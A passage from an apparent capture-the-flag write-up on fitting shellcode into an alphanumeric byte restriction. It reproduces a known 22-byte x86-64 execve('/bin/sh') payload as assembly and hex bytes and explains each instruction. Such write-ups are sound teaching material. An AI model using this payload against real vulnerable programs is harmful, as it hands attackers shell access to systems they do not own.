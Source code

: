 ## Plagiarism is always easier <a name="Plagiarism"></a>
Now, I had to consider a plan of attack. Clearly, no standard shellcode would just *work* on this binary. I looked up what I could about esoteric shellcodes, and given the hint in this challenge, **self-modifying shellcodes.** I found [This paper](https://www.exploit-db.com/docs/english/13127-writing-self-modifying-code-andutilizing-advanced-assembly-techniques.pdf) on writing self-modifying shellcode to restrict to the alphanumeric byteset. It brought the question of using someone else's shellcode and modifying it down, versus designing your own from the ground up. They went with the former, and so will I. However, I found [another page](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html) that had a 22 byte shellcode:
```asm
xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
```

The hex literal (the line of bytes we send), looks like this:
`[\x31]\xF6\x56\x48[\xBB\x2F]\x62[\x69]\x6E[\x2F\x2F\x73]\x68[\x53]\x54[\x5F\xF7]\xEE\xB0[\x3B\x0F\x05]`
I've marked odd bytes in brackets. We have 13 bytes that we need to whittle down to 0.

I think at this point, I should mention: **I had no idea how to code in x86-64 assembly**. I've coded in MIPS for a computer architecture class, but besides that I don't really fully understand the x64 convention.

Besides that, It's time to discuss what this code does, so we can make sure we replicate the same steps.


1. Setting the `rsi` register to 0 and pushing it to the stack
```asm
xor esi, esi
push rsi
```
2. Moving `/bin//sh` into the `rbx` register, and pushing it to the stack
```asm
mov rbx, 0x68732f2f6e69622f
push rbx
```
3. Move the stack address to the `rdi` register. This is the `char*` pointer to our `'/bin//sh'` string.
```asm
push rsp
pop rdi
```
4. I didn't really know what this did at first glance, but looking at the documentation, imul stores its result into `dx:ax` register range, or `rdx` and `rax`, which, since we set `esi` to 0, this is a cheap way to set both registers to 0.
```asm
imul esi
```
5. Call `execve('/bin/sh', 0, 0)`. `0x3b` is the ID for the system call of `execve()`. The calling convention uses `rdi`, `rsi` and `rdx` in that order, which we've set to the string pointer, 0 and 0, respectively.
```asm
mov al, 0x3b
syscall
```
